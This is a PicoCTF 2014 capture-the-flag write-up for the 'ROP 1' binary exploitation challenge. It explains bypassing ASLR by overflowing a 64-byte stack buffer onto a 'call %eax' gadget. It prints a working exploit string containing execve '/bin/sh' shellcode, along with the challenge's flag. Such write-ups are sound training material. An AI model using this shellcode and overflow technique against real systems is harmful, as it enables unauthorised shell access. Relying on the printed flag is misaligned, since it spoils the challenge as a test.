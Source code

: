 ## ROP 1 - 100 (Binary Exploitation) ##
#### Writeup by Oksisane

Created: 2014-11-13 21:45:39

Last modified: [2014-11-17 20:58:07](https://github.com/Oksisane/PicoCTF-2014-Writeups/commits/master/binary_exploitation/rop_1.md)


### Problem ###

This binary is running on a machine with ASLR! Can you bypass it? The binary can be found at `/home/rop1/` on the shell server. The source can be found [here](https://picoctf.com/problem-static/binary/rop1/rop1.c).



### Hint ###

ASLR is hard to beat if you need to predict an address, but what if you don't? What does %eax contain when vuln returns? Is there any code in the program which calls or jumps to it?


## Answer ##

### Overview ###

Implement use [ROP](http://en.wikipedia.org/wiki/Return-oriented_programming) techniques to write and execute you'r own shellcode while defeating aslr.

### Details ###
Before we begin, I am going to assume you know the basics of shellcode, buffer overflow attacks, and disassembling. If not, please read Overflow 1/2 before attempting this problem.

Let's begin. The hint tells us that figuring out what eax points to when the program returns is a good start, so let's do that. Opening the binary in IDA (provided [here](rop1) for your convenience) and breakpointing at the ret call shows us that `%eax` points to the start of our input buffer when `vuln` returns. This means that if we use our traditional buffer overflow to change the value of `%eip` to the value in `%eax`, the code will jump to the start of our buffer and start executing it as if the buffer was any other function. Since we do this without ever using any hardcoded addresses, it solves the problem of ASLR!

The first thing we need to know to exploit this is how many places up the stack we must write to change %eip. This turns out to be `76`, which is common for buffer sizes of 64 such as in this problem. Next, we need to figure out how to set the value of `%eip` to `%eax`. To do this we use a `ROP gadget`. A ROP gadget is a snippet of code somewhere in the assembly of this program (we don't really care where since we can overwrite `%eip` with anything) that we can employ, out of context of whatever function it is in, to serve a purpose. In this case, we are simply looking for the ROP Gadget: `call %eax`. This will jump to the value stored in `%eax` (the start of our buffer) and then execute each line of our buffer until an error is thrown. To find the `ROP Gadget` we can use grep, such as shown here:
```bash
objdump -d rop1 | grep "call.*eax"
```
Which returns many results. Let's pick the first one, `0x08048d86` and overwrite `%eip` with it. Our exploit string is now:
```bash
python -c 'print ""A"*76 + "\x86\x8d\x04\x08" '
```
Now the program will jump to the start of our program and start executing the `0x41` (A) values as instructions until it reaches an error. The final step of this problem is adding shellcode to the start of our buffer so the program executes it instead of `0x41`. Let's add this shellcode
```
\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80
```
and subtract the corresponding number of bytes from the `A` values we are printing to ensure we still overwrite `%eip` correctly. The final exploit string should look like this. Now, we print the shellcode first and then only 55 As (the shellcode is 21 bytes):
```
python -c 'print "\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80" + "A"*55 + "\x86\x8d\x04\x08" '
```
which gives us our flag!
### Flag ###

    theres_no_need_to_guess






